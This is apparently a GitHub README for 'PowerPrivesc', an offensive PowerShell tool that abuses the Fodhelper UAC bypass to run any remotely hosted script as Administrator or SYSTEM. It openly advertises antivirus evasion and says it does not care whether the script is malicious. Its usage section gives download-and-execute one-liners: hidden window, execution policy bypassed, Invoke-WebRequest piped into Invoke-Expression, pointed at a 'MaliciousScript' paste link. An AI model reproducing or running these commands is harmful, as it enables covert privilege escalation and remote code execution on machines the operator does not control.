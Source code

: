 # PowerPrivesc - Your AIO FUD Powershell Privesc Tool
Your all-in-one Powershell privilege escalation tool to run ANY script from a webserver.
You heard it right,ANYTHING! Wether its malicious or not,WE DONT CARE! ;)

The privilige escalation method that this tool used is the same one with the one that used on [MeterPwrShell](https://github.com/GetRektBoy724/MeterPwrShell).
This tool literally can run any script you want,from a normal copy-paste file to injecting shellcode into lsass.exe.
Dont forget to host the script somewhere! (my own recommendation is paste.c-net.org),
And also,dont even worry of your script is getting caught by AVs,we take care of the AV Evasion and Bypass ;)
# Notes
- NEVER UPLOAD THE PAYLOAD THAT GENERATED BY THIS PROGRAM TO ANY ONLINE SCANNER
- NEVER USE THIS PROGRAM FOR MALICIOUS PURPOSE
- SPREADING THE PAYLOAD THAT GENERATED BY THIS PROGRAM IS NOT COOL
- ANY DAMAGE GENERATED BY THIS PROGRAM IS NOT MY (As the program maker) RESPONSIBILTY!!!
- THIS TOOL DOESNT SCAN FOR PRIVESC VULNS,BUT ACTUALLY EXPLOIT A VULNERABILITY THAT WORKS AND UNPATCHED ON ALL WINDOWS 10 (which is Fodhelper Privesc Vulnerability)
- If you have some feature recommendation,post that on Issue
- If you want to know how tf my tool can bypass any AVs,you can check on [this](https://gist.github.com/GetRektBoy724/9383c9580cb1c9935fc04cc7eb7ef004) and [this](https://blog.sevagas.com/Bypass-Antivirus-Dynamic-Analysis)
### This Script Is Tested on Windows 10 v20H2
# Thanks to
- @FuzzySec for that awesome Masquerade PEB script
- @decoder-it for that amazing PPID Spoofing script
- Me for not dying when creating this tool
- Ed Wilson AKA Microsoft Scripting Guy for the great Powershell scripting tutorials
- and the last one is Emeric Nasi for the [research on bypassing AV dynamics](https://blog.sevagas.com/IMG/pdf/BypassAVDynamics.pdf)
# Requirements
- Internet Connection (On The Computer Where You Use This Script)
# Usage
After importing the script with `Import-Module` or invoke the script with `.\Invoke-PowerPrivesc.ps1` or *invoking it remotely*,this is the options you have
```
PARAMETER 
- ScriptLink
The link that goes into the script
- ToPrivilege
The privilege you want,it can be Administrator or SYSTEM
SWITCH 
- HideWindow
Use the switch to hide Powershell windows,By default,this tool shows the window
EXAMPLE
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow
Description
-----------
Run the Script as SYSTEM with window hidden
--------------------------------------------------------------------------------------------------------
Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege Administrator
Description
-----------
Run the Script as Administrator with window not hidden
```
One-Liner Example :
`powershell.exe -nop -W hidden -ep bypass -NoExit -Command "$accessspowerprivesc = Invoke-WebRequest https://raw.githubusercontent.com/GetRektBoy724/PowerPrivesc/master/Invoke-PowerPrivesc.ps1 -UseBasicParsing;Invoke-Expression $access.Content;Invoke-PowerPrivesc -ScriptLink https://paste.c-net.org/MaliciousScript -ToPrivilege SYSTEM -HideWindow"`
 # To-do List

